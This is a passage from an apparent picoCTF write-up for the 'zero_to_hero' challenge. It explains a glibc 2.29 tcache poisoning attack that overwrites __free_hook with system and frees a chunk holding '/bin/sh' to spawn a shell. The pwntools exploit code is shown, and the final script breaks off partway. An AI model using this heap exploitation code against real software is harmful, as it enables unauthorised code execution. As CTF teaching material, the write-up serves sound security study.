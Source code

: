 After that, it's the usual tcache poisoning attack to get a chunk on `__free_hook` and overwrite it with the address to `system`:
```python
# We do the usual tcache poisoning attack

# Get Chunk B from 0xf0 tcache bin and change it's FD to __free_hook
add(0xf0, p64(free_hook) + 'D'*0xe8)

# Allocates chunk B again
add(0xf0, 'E'*0xf0)

# Allocates chunk on __free_hook, change it to system
add(0xf0, p64(system) + 'F'*0xe8)
```

Now, remember when we changed chunk 0's first 8 bytes to `'/bin/sh\x00'`? If we call `free(0)`, it will actually call `free(ptr_to_chunk_0)`, which means it will now also call `((*)__free_hook)(ptr_to_chunk_0, ...)`.

Since we changed `__free_hook` to point to `system`, it will actually call `system(ptr_to_chunk_0)`, and if you imagine `ptr_to_chunk_0` to be a `char *`, it will call `system("/bin/sh\x00")`, giving us a shell:
```python
# Call free on the chunk with /bin/sh\x00 in it
# This will then call free('/bin/sh\x00') which calls system('/bin/sh\x00')
free(0)

p.interactive()
```

And so we use exactly 7 chunks to do the exploit. Perfect limit.

### Final exploit:

```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './zero_to_hero'
HOST, PORT = '2019shell1.picoctf.com', 49929

elf = ELF(BINARY)
libc = ELF('./libc-2.29.so')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(answer):
    p.recv()
    p.send(answer)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
```